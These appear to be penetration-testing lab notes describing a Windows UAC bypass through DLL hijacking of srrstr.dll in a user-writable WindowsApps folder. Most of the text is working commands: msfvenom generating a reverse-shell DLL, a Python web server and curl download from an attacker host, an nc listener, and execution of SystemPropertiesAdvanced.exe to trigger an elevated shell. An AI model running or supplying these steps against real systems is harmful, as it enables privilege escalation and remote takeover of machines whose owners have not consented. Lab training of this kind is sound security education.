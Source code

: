 ```powershell-session
cmd /c echo %PATH%
```

```powershell-session

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

* The `WindowsApps` folder is within the user's profile and writable by the user.
* We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

#### Generating Malicious srrstr.dll DLL

```shell-session
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

#### Starting Python HTTP Server on Attack Host

* \[\[Personal web server]]

```shell-session
sudo python3 -m http.server 8080
```

#### Downloading DLL Target

```powershell-session
curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### Starting nc Listener on Attack Host

```shell-session
nc -lvnp 8443
```

#### Testing Connection

```cmd-session
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

* Once we get a connection back, we'll see normal user rights.

#### Executing SystemPropertiesAdvanced.exe on Target Host

```cmd-session
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

#### Receiving Connection Back

* Checking back on our listener, we should receive a connection almost instantly.









